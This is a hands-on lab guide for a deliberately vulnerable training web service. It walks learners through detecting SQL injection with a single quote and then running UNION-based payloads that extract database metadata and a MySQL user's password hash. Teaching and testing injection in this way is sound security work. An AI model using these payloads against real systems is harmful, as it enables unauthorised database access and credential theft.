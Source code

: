 ## SQL Injection
* Start the NodeJS Stack by running the following commands:
	* Open up the Terminal
	* Command: `start_node.sh`
	* Wait for a few seconds till the stack starts up
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
In Insomnia, you should automatically be on the Cut the Funds Workspace. This is the list of requests and responses for the webservice. You'll be using this tool to interact with the API. In the sidebar, click on the "Login Manager" request

![Login Manager](../img/insomnia_login_manager.jpg)

Execute the Request, by clicking "Send" in the main window

![Send Request](../img/send_insomnia.png)

If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc

![Manager Token](../img/token_200_manager.png)

Now in the sidebar, go to the SQLi Search Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page

![Add Auth Token to Request](../img/auth_token_header.png)

In the main page. you can change the search json attribute to any value you want. Search for something simple like a country for now.

![Search Country](../img/search_country.png)

Now try forcing an error, by injecting a single quote in the search param. It should throw an error. If it does, you can be sure that the app you are testing is vulnerable to SQL Injection

`Chile'`

![SQLi Search Error](../img/sqli_search_error.png)

Now that we have established that SQL Injection is possible, let's start exploring SQL Injection Attacks against the application

	```
	India' UNION ALL SELECT null, (SELECT @@datadir)--
	India' UNION ALL SELECT null, (SELECT @@version)--
	India' UNION ALL SELECT null, (SELECT user())--
	India' UNION ALL SELECT null, (SELECT database())--
	India' UNION ALL SELECT null,(SELECT concat(user,':',authentication_string) from mysql.user LIMIT 1)--
	```
* Each of the above is an SQL Injection payload. Copy each payload and inject them in the search parameter by pasting the payload in the search field in the top right corner. Click the search button to execute the payload
* Observe the results

### Vulnerable Code - SQL Injection
* Open Terminal
* Command: `cd /home/we45/Downloads/sources/Cut-The-Funds-NodeJS`
* Command: `mousepad controllers/project.controller.js`
* Mousepad opens up
	* goto line 125 and look at the vulnerable SQL call

### Close Lab
* On the terminal that you ran the `start_node.sh` run `Ctrl + C` to shutdown the app.
* Now run `stop_node.sh` to gracefully bring down the stack.


